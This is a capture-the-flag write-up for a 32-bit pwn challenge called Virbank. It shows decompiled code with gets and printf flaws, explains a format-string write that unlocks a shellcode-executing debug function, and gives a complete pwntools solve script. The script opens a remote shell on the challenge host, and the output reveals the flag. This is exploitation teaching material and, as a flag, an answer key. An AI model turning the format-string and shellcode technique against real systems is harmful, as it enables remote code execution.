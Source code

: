 # Elite showdown : Virbank

## Description

Caitlin hid her secret key on her remote server located at "0.cloud.chals.io" on port 20555.

Her server is running the "virbank_connection" executable.

Good luck!

## Solution

```
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

There is an attached binary. Opening it in a decompiler 

```c
undefined4 main(void)

{
  char local_88 [124];
  undefined *local_c;
  
  local_c = &stack0x00000004;
  setvbuf(stdout,(char *)0x0,2,0);
  puts("What remote transport station do you want to connect to? ");
  gets(local_88);
  printf("Connecting to: ");
  printf(local_88);
  if (debug == 0x1e) {
    debug_command();
  }
  puts("\nDone, exiting...");
  return 0;
}
```

we can see a gets and printf exploit, so any sanity check would be ret2libc, but sadly there is a catch 

![alt text](image-1.png)

`LEA EBP, [ECX - 0x4]` basically checks the stack pointer in the stack, but we don't have a leak, so a buffer overflow can't work it would crash. So we need something else, we do have something else 

```
  if (debug == 0x1e) {
    debug_command();
  }
```

There is a global variable check to a command. Let's see what is this function.

```c
void debug_command(void)

{
  undefined local_42 [50];
  code *local_10;
  
  puts("Running Debug Mode, Enter Debug Command: ");
  gets(local_42);
  puts("Executing...");
  local_10 = (code *)local_42;
  (*local_10)();
  return;
}
```

This is shellcode execution. With this we can get shell directly. But to execute it we need to make `debug` the value of `0x1e`, but there is a printf exploit in which we can write on a specific address as we have our printf exploit in main. Thus we can access debug_command and give it shellcode to create a shell. 

solve script

```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./virbank_checker")

context.binary = exe
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'i386'

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("0.cloud.chals.io", 20555)

    return r

def fuzz(payload):
    r = conn()
    r.sendline(payload)
    r.recvuntil(b'Connecting to: ')
    output = r.recvline()
    r.close()
    return output


def main():
    r = conn()

    # gdb.attach(r, '''
    #            gef config context.nb_lines_stack 60
    #            b *main+94
    #            b *main+0x8d
    #            c
    #            ''')
    
    # f = FmtStr(execute_fmt=fuzz)
    # offset = 6
    
    payload = fmtstr_payload(offset=6, writes={exe.symbols['debug']: 0x1E})
    
    
    r.sendline(payload)
    
    r.recvuntil(b'Enter Debug Command: ')
    
    r.sendline(asm(shellcraft.i386.linux.sh()))

    r.interactive()


if __name__ == "__main__":
    main()
```
```
[+] Opening connection to 0.cloud.chals.io on port 20555: Done
[*] Switching to interactive mode

Executing...
$ ls
caitlin_flag.txt
virbank_checker
$ cat caitlin_flag.txt
Congratulations! You have completed Caitlin's challenge.

Caitlin's flag: flag{p$yCh1clY_benDinG}
```


